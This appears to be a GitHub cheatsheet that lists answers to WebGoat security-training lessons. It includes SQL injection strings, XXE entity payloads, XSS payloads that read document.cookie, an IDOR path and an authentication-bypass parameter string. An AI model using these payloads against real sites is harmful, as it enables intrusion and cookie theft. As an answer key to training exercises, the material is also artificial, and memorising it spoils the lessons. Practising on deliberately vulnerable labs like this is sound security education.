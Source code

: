 # Cheatsheet

## CIA TRIAD
[Descripción de CIAD](https://www.forcepoint.com/es/cyber-edu/cia-triad)

1- Solution 3: By stealing a database where names and emails are stored and uploading it to a website.
2- Solution 1: By changing the names and emails of one or more users stored in a database.
3- Solution 4: By launching a denial of service attack on the servers.
4- Solution 2: The systems security is compromised even if only one goal is harmed.

## Crypto basics

### 2

[Encoding](https://www.w3.org/International/questions/qa-what-is-encoding)
[Encode64](https://www.base64decode.org/)

### 3

[XOR IBM](https://strelitzia.net/wasXORdecoder/wasXORdecoder.html)

`databasepassword`





## Access control flaws -  Guessing & Predicting Patterns

```
WebGoat/IDOR/profile/2342384
```

## XXE - Let's try

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
```
## Modern REST framework

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
<comment><text>&xxe;</text></comment>
```

## Try It! String SQL Injection

```
Smith' and '1'='1
```

## Try It! Numeric SQL Injection

```
101 OR TRUE
```

## SQL Injection (mitigation) - ZAP

```
192.168.6.4
```

## Authentication Bypasses - ZAP

```
secQuestion00=asd&secQuestion01=asd
```

## What is XSS

```
yes / no 
```

```
javascript:alert(document.cookie);
```

## Try It! Reflected XSS

Enter your credit card number:
```
<script>alert('my javascript here')</script>
```
## Identify Potential for DOM-Based XSS

```
start.mvc#test/
```

## Try It! DOM-Based XSS

Consola:
```
webgoat.customjs.phoneHome()
```

